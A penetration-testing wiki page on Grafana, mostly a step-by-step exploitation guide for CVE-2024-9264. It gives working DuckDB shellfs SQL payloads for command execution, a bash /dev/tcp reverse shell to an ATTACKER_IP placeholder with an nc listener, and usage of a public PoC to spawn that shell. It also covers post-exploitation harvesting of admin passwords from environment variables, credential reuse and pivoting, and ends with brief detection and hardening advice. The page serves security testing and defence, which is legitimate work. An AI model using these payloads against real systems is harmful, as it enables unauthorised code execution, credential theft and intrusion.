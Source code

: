 # Grafana

{{#include ../../banners/hacktricks-training.md}}

## Interesting stuff

- The file **`/etc/grafana/grafana.ini`** can contain sensitive information such as **admin** **username** and **password.**
- Inside the platform you could **invite people** or **generate API keys** (might need to be admin)
- You could check which plugins are installed (or even install new)
- By default it uses **SQLite3** database in **`/var/lib/grafana/grafana.db`**
  - `select user,password,database from data_source;`

---

## CVE-2024-9264 – SQL Expressions (DuckDB shellfs) post-auth RCE / LFI

Grafana’s experimental SQL Expressions feature can evaluate DuckDB queries that embed user-controlled text. Insufficient sanitization allows attackers to chain DuckDB statements and load the community extension shellfs, which exposes shell commands via pipe-backed virtual files.

Impact
- Any authenticated user with VIEWER or higher can get code execution as the Grafana OS user (often grafana; sometimes root inside a container) or perform local file reads.
- Preconditions commonly met in real deployments:
  - SQL Expressions enabled: `expressions.enabled = true`
  - `duckdb` binary present in PATH on the server

Quick checks
- In the UI/API, browse Admin settings (Swagger: `/swagger-ui`, endpoint `/api/admin/settings`) to confirm:
  - `expressions.enabled` is true
  - Optional: version (e.g., v11.0.0 vulnerable), datasource types, etc.
- Shell on host: `which duckdb` must resolve for the exploit path below.

Manual query pattern using DuckDB + shellfs
- Abuse flow (2 queries):
  1) Install and load the shellfs extension, run a command, redirect combined output to a temp file via pipe
  2) Read back the temp file using `read_blob`

Example SQL Expressions payloads that get passed to DuckDB:
```sql
-- 1) Prepare shellfs and run command
SELECT 1; INSTALL shellfs FROM community; LOAD shellfs;
SELECT * FROM read_csv('CMD >/tmp/grafana_cmd_output 2>&1 |');
-- 2) Read the output back
SELECT content FROM read_blob('/tmp/grafana_cmd_output');
```
Replace CMD with your desired command. For file-read (LFI) you can instead use DuckDB file functions to read local files.

One-liner reverse shell example
```bash
bash -c "bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1"
```
Embed that as CMD in the first query while you have a listener: `nc -lnvp 443`.

Automated PoC
- Public PoC (built on cfreal’s ten framework):
  - [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)

Usage example
```bash
# Confirm execution context and UID
python3 CVE-2024-9264.py -u <USER> -p <PASS> -c id http://grafana.target
# Launch a reverse shell
python3 CVE-2024-9264.py -u <USER> -p <PASS> \
  -c 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1"' \
  http://grafana.target
```
If output shows `uid=0(root)`, Grafana is running as root (common inside some containers).

Post-exploitation notes
- Harvest environment secrets from the spawned process (`env` or `/proc/<pid>/environ`). Grafana commonly exposes variables like:
  - `GF_SECURITY_ADMIN_USER`, `GF_SECURITY_ADMIN_PASSWORD`
  - These may be reused in other places (e.g., SSH, basic-auth on internal tools). See Linux post-exploitation tips below.
- Container indicators: `/.dockerenv`, short hex hostname, Docker bridge IP in `/proc/net/fib_trie`.
- Local port-only panels: Pivot with SSH local port forwarding: `ssh -L 9001:localhost:<port> user@host` and browse `http://localhost:9001` from your box.

Detection & hardening
- Disable SQL Expressions if not needed: `expressions.enabled = false` (ini or via provisioning)
- Remove or restrict DuckDB availability on the server PATH if SQL Expressions are enabled
- Restrict extension loading in DuckDB if applicable; monitor for `INSTALL shellfs` or unexpected use of `read_csv('...|')`
- Upgrade Grafana to a fixed version (see the official advisory linked below) and review all users with VIEWER+ access
- Monitor admin API usage and unusual SQL Expression panels/queries

See also
- For loopback-only panel access: SSH port-forwarding notes in Tunneling and SSH pages
- For environment secret harvesting and systemd environment vars: Linux Post-Exploitation page

{{#ref}}
../../generic-hacking/tunneling-and-port-forwarding.md
{{#endref}}

{{#ref}}
../../linux-hardening/linux-post-exploitation/README.md
{{#endref}}

## References

- [Grafana Advisory – CVE-2024-9264 (SQL Expressions RCE/LFI)](https://grafana.com/security/security-advisories/cve-2024-9264/)
- [DuckDB shellfs community extension](https://duckdb.org/community_extensions/extensions/shellfs.html)
- [nollium/CVE-2024-9264 PoC](https://github.com/nollium/CVE-2024-9264)
- [cfreal/ten framework](https://github.com/cfreal/ten)

{{#include ../../banners/hacktricks-training.md}}
